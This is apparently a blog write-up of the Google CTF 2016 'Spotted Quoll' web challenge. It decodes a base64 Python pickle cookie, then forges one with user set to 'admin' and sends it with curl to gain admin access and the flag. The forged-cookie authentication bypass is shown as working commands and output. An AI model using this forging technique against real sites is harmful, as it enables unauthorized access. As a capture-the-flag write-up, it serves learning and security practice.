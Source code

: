 ```yaml
---
layout: post
redirect_from:
  - /writeup/ctf/2016/google-ctf-2016-spotted-quoll/
  - /blog/2016/05/02/google-ctf-2016-spotted-quoll/
date: 2016-05-02T02:33:29+09:00
tags: [ "ctf", "web", "writeup", "google-ctf" ]
"target_url": [ "https://capturetheflag.withgoogle.com/challenges/" ]
---
```


# Google Capture The Flag 2016: Spotted Quoll

You can find the file `/getCookie` in html, so try to GET:

``` sh
$ curl --insecure -D- https://spotted-quoll.ctfcompetition.com/getCookie
HTTP/1.1 200 OK
Content-Type: text/html; charset=utf-8
Cache-Control: no-cache
Date: Sun, 01 May 2016 06:38:21 GMT
Server: Google Frontend
Content-Length: 0
Set-Cookie: obsoletePickle=KGRwMQpTJ3B5dGhvbicKcDIKUydwaWNrbGVzJwpwMwpzUydzdWJ0bGUnCnA0ClMnaGludCcKcDUKc1MndXNlcicKcDYKTnMu; Path=/
Alt-Svc: quic=":443"; ma=2592000; v="33,32,31,30,29,28,27,26,25"
Expires: Sun, 01 May 2016 06:38:21 GMT
```

A mysterious cookie is given.
The string `obsoletePickle` seems something like python's `pickle`.
This is true, you can decode this as pickle after base64. (this are a word `obsolete`, but you can decode not only Python 2.x, also Python 3.x).

``` python
>>> pickle.loads(base64.b64decode(b'KGRwMQpTJ3B5dGhvbicKcDIKUydwaWNrbGVzJwpwMwpzUydzdWJ0bGUnCnA0ClMnaGludCcKcDUKc1MndXNlcicKcDYKTnMu'))
{'python': 'pickles', 'subtle': 'hint', 'user': None}
```

Due to the error message with above cookie is `https://spotted-quoll.ctfcompetition.com/#err=user_not_found`, lets try send a cookie baked with:

```
>>> base64.b64encode(pickle.dumps({'user': 'admin', 'subtle': 'hint', 'python': 'pickles'}, protocol=0))
b'KGRwMApWc3VidGxlCnAxClZoaW50CnAyCnNWcHl0aG9uCnAzClZwaWNrbGVzCnA0CnNWdXNlcgpwNQpWYWRtaW4KcDYKcy4='
```

To avoid such a error `https://spotted-quoll.ctfcompetition.com/#err=unsupported%20pickle%20protocol%3A%203`, you should specify the pickle-protocol as $0$.

``` sh
$ curl --insecure -D- https://spotted-quoll.ctfcompetition.com/admin --cookie obsoletePickle=KGRwMApWc3VidGxlCnAxClZoaW50CnAyCnNWcHl0aG9uCnAzClZwaWNrbGVzCnA0CnNWdXNlcgpwNQpWYWRtaW4KcDYKcy4=
HTTP/1.1 200 OK
Content-Type: text/html; charset=utf-8
Cache-Control: no-cache
Vary: Accept-Encoding
Date: Sun, 01 May 2016 06:53:33 GMT
Server: Google Frontend
Alt-Svc: quic=":443"; ma=2592000; v="33,32,31,30,29,28,27,26,25"
Accept-Ranges: none
Transfer-Encoding: chunked

Your flag is CTF{but_wait,theres_more.if_you_call} ... but is there more(1)? or less(1)?
```
